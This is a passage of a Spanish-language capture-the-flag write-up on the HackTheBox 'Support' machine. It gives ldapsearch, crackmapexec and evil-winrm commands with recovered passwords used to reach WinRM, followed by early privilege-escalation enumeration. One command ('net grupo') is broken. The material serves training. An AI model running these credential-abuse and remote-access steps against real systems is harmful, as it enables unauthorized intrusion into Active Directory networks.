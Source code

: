 encontramos:

```bash
Ironside47pleasure40Watchful
```

Que le pertenece al usuario support.
Ahora podemos intentar sin hacer validación, conectarnos a winrm mediante evil-winrm para probar si la contraseña es correcta.

```bash
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep -i "samaccountname: support" -B 40
```

Entonces como tenemos el puerto 5985 podemos usarlo, pues pertenece al servicio de administración remota de Windows, y podríamos usar evilWinrm, y conectarnos a la maquina, pero antes deberíamos validarlo  para saber si de entrada es correcto lo que hemos hecho.

```bash
crackmapexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
```

y como nos pone un "pwned!" sabemos que es valido.

```bash
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

nos conectamos y podemos ver la flag del usuario.

## Escalada de Privilegios.

Para empezar la escalada, podemos realizar otra ves un par de revisiones para saber por donde podríamos efectuarla. 

por lo cual metemos:

```bash
whoami /priv
```

NADA..

```bash
net user support
```

```bash
net grupo
```

y observamos que tenemos un parámetro peculiar el 

```bash
Local Group Memberships      *Remote Management Use
```

Ahora que estamos dentro, podemos intentar usar Bloodhound para una mayor enumeración. Bloodhound nos hace la vida más fácil porque puede brindarnos visualización de las relaciones dentro de un entorno de Active Directory.
